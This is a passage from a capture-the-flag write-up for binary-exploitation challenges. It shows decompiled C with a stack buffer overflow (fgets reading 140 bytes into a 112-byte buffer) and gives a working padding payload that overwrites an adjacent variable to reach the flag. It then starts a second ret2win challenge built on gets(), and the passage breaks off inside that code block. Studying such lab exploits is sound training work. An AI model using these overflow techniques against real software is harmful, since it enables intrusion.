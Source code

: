 Looking at the code from the disassembly, we can see that we are trying to modify `s1` to be `0xdeadbeef` without direct access to the variable.

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  FILE *stream; // [rsp+8h] [rbp-158h]
  char v6[112]; // [rsp+10h] [rbp-150h] BYREF
  char s[112]; // [rsp+80h] [rbp-E0h] BYREF
  char s1[104]; // [rsp+F0h] [rbp-70h] BYREF
  unsigned __int64 v9; // [rsp+158h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  fflush(stdout);
  fflush(stdin);
  fgets(s, 140, stdin);
  if ( !strncmp(s1, "0xdeadbeef", 0xAuLL) )
  {
    stream = fopen("flag.txt", "r");
    if ( stream )
    {
      fgets(v6, 99, stream);
      printf("Flag is: %s\n", v6);
      fclose(stream);
    }
    else
    {
      puts("There was an issue opening the file.");
    }
  }
  return v9 - __readfsqword(0x28u);
}
```

Fortunately, the variable `s` that our input is taken in to should only be storing 112 bytes, but can take in 140 bytes.

We can overflow the buffer of `s` and write `0xdeadbeef` into `s1` with this.

Exploit: Use 112 bytes of padding the write `0xdeadbeef`: `aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaa0xdeadbeef`

### i-95/Cape Canaveral

Drive your way to the greatest Space Coast in the United States!

Attachments: [cape_canaveral](https://2024.sunshinectf.games/f98149e6f798/canaveral)

nc 2024.sunshinectf.games 24602

### Solution

Looking at the code from the disassembly, we can see that the challenge is a simple ret2win.

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  fflush(stdout);
  fflush(stdin);
  return func0();
}

__int64 func0()
{
  _BYTE v1[112]; // [rsp+0h] [rbp-70h] BYREF

  printf("Enter the launch command: ");
  return gets(v1);
```